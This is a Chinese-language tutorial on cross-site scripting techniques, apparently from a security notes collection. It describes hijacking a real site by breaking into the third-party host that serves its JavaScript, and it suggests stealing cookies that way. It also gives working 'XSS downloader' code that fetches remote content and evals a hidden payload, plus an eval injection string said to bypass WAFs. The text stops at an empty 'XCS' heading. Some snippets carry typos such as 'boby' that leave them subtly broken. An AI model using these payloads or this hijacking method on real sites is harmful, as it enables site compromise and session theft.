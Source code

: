 # XSS技巧

## 01. 前言

遗留的问题

```
问1：只能更改IP么？
答1：不是，这里只是一个例子，大家需要发散思维。Referer User-Agent Cookie 等都可以的。
问2：我一个站也是http头部获取用户信息地方存在注入，可否xss？
答2：存在注入说明你把用户信息放到数据库里了，如果不显示前/后台显现用户信息，则不存在XSS。
```

## 02. 第三方劫持 (外调J/C)
本方法是我看长短短贴代码时知晓的，这篇文章我只是把这个攻击手法整理了出来，来说明这个漏洞，这个攻击手法并不是我发现的，我也不是太清楚是谁。“第三方劫持”就是把资源域的服务器的权限拿下，替换相关资源，采用‘迂回式’的渗透方式。

** PS ** ：J/C指的是javascript、css，其实还包括flash、etc、html等等，只是这个不经常使用而已，所以就不说了。

从字面上大家也可以猜出来，这是种什么攻击手法。名字里的"外调"不是从目标网站上插入新的J/C。而是在目标网站上找到不是本站的J/C。然后渗透那个网站，重写J/C。来达到渗透目标网站。

可是要怎么找到非本站的J/C呢？！不要担心， “长短短”已经写好相关的代码了，获取非本站的J/C。

```
for(var i=0,tags=document.querySelectorAll('iframe[src],frame[src],script[src],link[rel=stylesheet],object[data],embed[src]'),tag;tag=tags[i];i++){
  var a = document.createElement('a');
  a.href = tag.src||tag.href||tag.data;
  if(a.hostname!=location.hostname){
    console.warn(location.hostname+' 发现第三方资源['+tag.localName+']:'+a.href);
  }
}
```

把这段输入在F12“审查元素”里”控制台”里，回车就OK。

OK，原理说完了。我们来个实例。

我们在http://www.zj4000.com/ 网站上使用上面的代码，获取到，其中有个www.xss8.pw的js。

![](/attackUsers/xss/image/xss-33.png)

那么我就渗透他试试，20分钟后…….好了，渗透完了。我们现在来重写JS，现在我们先测试下能不能用，我先在1.js里写上`alert(&#039;xss&#039;);`

![](/attackUsers/xss/image/xss-34.png)

现在，我们再来看看 www.zj4000.com 怎么样了。

![](/attackUsers/xss/image/xss-35.png)

看来，已经被成功调用了。我这里没有用css来说，因为js比较规范点，而且用css来实现我这上面的功能，同理SWF也可以实现上面的功能。我相信大家都会了，不需要我再多说什么了。

现在你已经掌握了一个可随时变化的储蓄xss，我们可以自己写个脚本，来获取目标的cookies。

这些我就不说了，我只是把这门冷门但是比较有潜力的攻击手法和大家说下。这个攻击手法比较有局限性，只要网站有着可以实现攻击环境， 那么的危害将会非常大。

想继续了解的可以看看黑哥写的WEBsec2-public.ppt

## 03 XSS downloader（XSS下载器）
此方法是由cnn4ry在《XSS跨站脚本攻击剖析与防御》里提起过。

这个技术其实就是把反射和储蓄结合起来，把核心代码写在网站上，然后以XSS触发并调用代码，实现攻击。

在《XSS跨转脚本攻击剖析与防御》里的代码不太正确，没有使用onreadystatechange的readyState来判断是否请求完成，也没有用status判断页面是否存在。导致没符合这几个条件的情况下就输出了，此时内容是空的，所以不会成功，我就自己写了一个ajax获取的。

下面是代码

```html
<html>
    <head>
        <title>ajax</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                             if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                             {
                                 request_text=xmlhttp.responseText;
                                 var a = request_text.indexOf("woaini")+6;
                                 var b = request_text.indexOf("niaiwo");
                                 eval(request_text.substring(a,b));
                             }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```

Ajax.php：

```
12345648745465465474woainialert('xss')niaiwoasd5165484613ejkasoidoaid\
```

这时，当你打开ajax.html，就会弹出对话框。如图：

![](/attackUsers/xss/image/xss-36.png)

现在我来说说代码的大致意思

ajax.html它的主要功能就是获取ajax.php里在woaini字符串和niaiwo之间的字符串，并把获取的字符串用eval的方式运行，

Ajax.php(可以为txt，或者html等等，不要太在意是php后缀)没什么主要的功能，但是他是这个技巧的核心，eval就是运行它里面的代码。

整个内容，你可以写很多没有用的字符串，但是eval运行的代码，必须是在woaini和niaiwo之间，切记！

因为篇幅有限，还有一种方式，我就不细说，说出原理 大家也因该明白了。

假设网站的留言板存在反射XSS，我想利用的话，我可以构造为on事件，或者伪协议(javascript:)来运行下面的代码

```
eval(document.boby.innerHTML.substring(document.boby.innerHTML.indexOf('woaini')+6,document.boby.innerHTML.indexOf('niaiwo')));
```

那我留言，内容为`woainialert(&#039;xss&#039;)niaiwo`，你就会发现弹出对话框了，这种方法隐蔽性强，利用方便，可以绕过很多的WAF。不一定非要用ajax来获取，也可以在本地使用`indexOf`和`substring`来完成。如果你想，你还可以使用javascript正则来获取指定内容，下面是代码：

1.html
```html
<html>
    <head>
        <title>ajax+正则匹配</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                         if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                         {
                             request_text=xmlhttp.responseText;
                             var text = request_text.match(/woaini(.*)niaiwo/i);
                             eval(text[1]);
                         }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```

## 04. XCS







